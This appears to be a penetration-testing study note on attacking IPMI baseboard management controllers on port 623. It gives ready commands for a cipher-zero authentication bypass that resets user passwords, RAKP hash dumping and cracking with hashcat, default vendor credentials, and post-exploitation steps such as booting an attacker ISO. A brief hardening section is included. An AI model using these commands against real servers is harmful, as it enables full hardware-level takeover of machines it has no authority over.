

# 58 - IPMI (Port 623) Pentesting

## 1. Executive Summary

IPMI (Intelligent Platform Management Interface) is the protocol behind **BMCs** (Baseboard Management Controllers — iLO, iDRAC, IMM, Supermicro) that allow remote management of a server **independent of its OS or power state**, on **UDP/TCP 623**. A BMC is effectively a tiny always-on computer with full hardware control (power, console, virtual media), so compromising it = owning the server beneath the OS. Two devastating, widespread flaws: **Cipher Zero** (auth disabled — log in with *any* password for a valid user) and **RAKP remote hash retrieval** (pull the salted password hash of any user, offline-crack it). Both are inherent to IPMI 2.0.

## 2. Protocol Overview & Architecture

The BMC runs separately from the host CPU/OS with its own NIC (or shares one), powered whenever the chassis has standby power. IPMI 2.0 uses RMCP+ with cipher suites for session setup. The **RAKP** handshake leaks a HMAC of the password *before* authentication completes — a protocol design flaw, not a bug — so any reachable BMC discloses crackable hashes. **Cipher suite 0** signals "no authentication," so commands are accepted with any password.

## 3. Enumeration & Footprinting

```bash
nmap -n -sU -p 623 10.0.0.0/24
nmap -sU --script ipmi-version -p 623 <IP>
```

## 4. Exploitation Deep Dive

### 4.1 Cipher Zero (auth bypass)
Detect, then act with any password for a valid user (commonly `admin`/`root`):
```bash
msf> use auxiliary/scanner/ipmi/ipmi_cipher_zero
# Change a user's password with cipher 0 (-C 0):
ipmitool -I lanplus -C 0 -H <IP> -U root -P root user list
ipmitool -I lanplus -C 0 -H <IP> -U root -P root user set password 2 NewPass123
```

### 4.2 RAKP Hash Retrieval → Offline Crack
Pull salted MD5/SHA1 hashes for existing users, then crack:
```bash
msf> use auxiliary/scanner/ipmi/ipmi_dumphashes
hashcat -m 7300 ipmi.hashes rockyou.txt      # 7300 = IPMI2 RAKP HMAC-SHA1
```

### 4.3 Default BMC Credentials
Many BMCs ship known defaults — try them after/with the above:
```bash
ipmitool -I lanplus -H <IP> -U ADMIN -P ADMIN sdr        # Supermicro
# Dell iDRAC root:calvin, HP iLO Administrator:<random on label>
```

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Full BMC control: power cycle, KVM console, mount virtual media → boot attacker ISO → own the host OS.
- Cracked BMC passwords often reused for host/admin accounts.
- Persistent below-OS foothold (survives OS reinstall).

## 7. Defense & Hardening
1. **Isolate BMCs on a dedicated management VLAN**, never internet-facing; firewall 623.
2. Disable cipher 0; change all default BMC credentials; strong unique passwords (mitigates RAKP cracking).
3. Patch BMC firmware; disable IPMI over LAN if unused.
4. Monitor 623 access.

## 8. Chaining Opportunities
- Virtual media boot → host disk access → **[[08 - Linux Privilege Escalation]]** / offline credential theft.
- Reused BMC creds → SSH/RDP/AD.

## 9. Related Notes
- [[59 - IPsec IKE VPN (Port 500) Pentesting]]

## 10. Tools
`ipmitool`, Metasploit `ipmi_cipher_zero`/`ipmi_dumphashes`, `hashcat -m 7300`, `nmap` ipmi-version.
